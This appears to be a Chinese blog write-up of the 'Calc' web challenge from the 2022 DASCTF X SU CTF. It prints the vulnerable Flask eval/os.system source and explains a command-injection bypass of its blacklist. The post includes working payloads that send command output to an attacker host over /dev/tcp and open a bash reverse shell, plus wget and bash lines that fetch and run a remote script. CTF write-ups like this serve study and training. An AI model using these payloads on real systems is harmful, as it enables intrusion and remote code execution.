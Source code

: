```yaml
---
layout: post
title: "2022DASCTF X SU 三月春季挑战赛    Calc "
date: "2022-04-01T19:14:34.298Z"
---
```

2022DASCTF X SU 三月春季挑战赛 Calc
============================

查看代码

    #coding=utf-8
    from flask import Flask,render_template,url_for,render_template_string,redirect,request,current_app,session,abort,send_from_directory
    import random
    from urllib import parse
    import os
    from werkzeug.utils import secure_filename
    import time
    
    
    app=Flask(__name__)
    
    def waf(s):
        blacklist = ['import','(',')',' ','_','|',';','"','{','}','&','getattr','os','system','class','subclasses','mro','request','args','eval','if','subprocess','file','open','popen','builtins','compile','execfile','from_pyfile','config','local','self','item','getitem','getattribute','func_globals','__init__','join','__dict__']
        flag = True
        for no in blacklist:
            if no.lower() in s.lower():
                flag= False
                print(no)
                break
        return flag
        num=1#`ls`
    
    @app.route("/")
    def index():
        "欢迎来到SUctf2022"
        return render_template("index.html")
    
    @app.route("/calc",methods=['GET'])
    def calc():
        ip = request.remote_addr
        num = request.values.get("num")
        log = "echo {0} {1} {2}> ./tmp/log.txt".format(time.strftime("%Y%m%d-%H%M%S",time.localtime()),ip,num)
        
        if waf(num):
            try:
                data = eval(num)
                os.system(log)
            except:
                pass
            return str(data)
        else:
            return "waf!!"
    
    
    
        
    
    if __name__ == "__main__":
        app.run(host='0.0.0.0',port=5000)

首先放出源码

然后观察可以知道，对num的过滤极其严格，所以突破口并不在num上，自然而然想到突破口应该是log

`log = "echo {0} {1} {2}> ./tmp/log.txt".format(time.strftime("%Y%m%d-%H%M%S",time.localtime()),ip,num)`

程序会将num插入到log字符串的最后然后先后执行 eval（num）和os.system（log）。

我们要想办法在第二个函数上执行但是要避免在eval函数中报错以导致程序不会进行下一步。基于python特性想到了用#注释。

然后就可以使用\`代码\`来优先执行，其实$（）有相同作用但是被过滤了。

接下来有多种方法我挨个尝试。

**1 输出重定向到攻击机**

payload：calc?num=1%23\`ls%09>/dev/tcp/IP/2333\`

直接将输出重定向到攻击机 因为空格被过滤所以用制表符

![](https://img2022.cnblogs.com/blog/2812085/202203/2812085-20220331151756638-2003821862.png)

然后直接打开这个文件即可

![](https://img2022.cnblogs.com/blog/2812085/202203/2812085-20220331151756664-1509057379.png)

**2 命令行反弹**

**因为&被过滤不能直接用**

    bash -i >& /dev/tcp/IP/2333 0>&1

 所以现在本地用python写一个文件，然后开启服务器

让目标机读取本机上的文件并执行即可。（哦别忘了在云服务器上安全组开启端口）

![](https://img2022.cnblogs.com/blog/2812085/202203/2812085-20220331151756659-1176652283.png)![](https://img2022.cnblogs.com/blog/2812085/202203/2812085-20220331151756665-1078763926.png)

ok 这就结束了 

payload：

calc?num=1%23\`wget%09http://Ip/log.sh\`

calc?num=1%23\`bash%09log.sh\`

第二种方法结束。

还有其他避开eval报错得到方法还可以去学习